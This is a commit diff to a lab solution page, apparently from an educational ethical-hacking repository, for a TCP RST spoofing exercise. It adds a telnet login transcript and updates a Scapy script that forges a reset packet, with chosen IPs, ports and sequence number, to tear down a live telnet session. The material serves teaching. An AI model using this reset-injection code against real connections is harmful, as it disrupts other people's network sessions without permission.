

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Enhance TCPSpoofing solution with telnet example
Added example telnet session and updated TCP sequence number for the TCPSpoofing attack.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -87,6 +87,19 @@ For this attack we used Wireshark to gather the requested information.
 
 We first authenticated ourselves on telnet and then we look at the last packet sent in the direction we want to RESET the connection (in this case from 10.9.0.6 to 10.9.0.5).
 
+```bash
+root@472341f5fb4b:/# telnet 10.9.0.5
+Trying 10.9.0.5...
+Connected to 10.9.0.5.
+Escape character is '^]'.
+Ubuntu 20.04.1 LTS
+abb6db62e897 login: seed
+Password:
+Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)
+```
+
+Tip: complete the login step to avoid incurring in a time out of the connection.
+
 We take the value shown in `sequence number (raw)` and set it as the sequence number in our script (we can do that because the last ACK hasn't any payload aka it's `=0`), together with the `R` flag.
 
 Let's put the right IPs and ports (again, watching Wireshark).
@@ -100,9 +113,7 @@ from scapy.all import *
 
 ip = IP(src="10.9.0.6", dst="10.9.0.5")
 
-# Need to take the seq number (raw) corresponding to the one inside the last packet sent in that direction (in this case from 10.9.0.6 to 10.9.0.5)
-
-tcp = TCP(sport=32804, dport=23, flags="R", seq=2481792999)
+tcp = TCP(sport=58018, dport=23, flags="R", seq=4198450972)
 pkt = ip/tcp
 ls(pkt)
 send(pkt,verbose=0)
````
Also changed, not shown: other parts of 02 - TCPSpoofing/solution.md (+1 -1 lines).
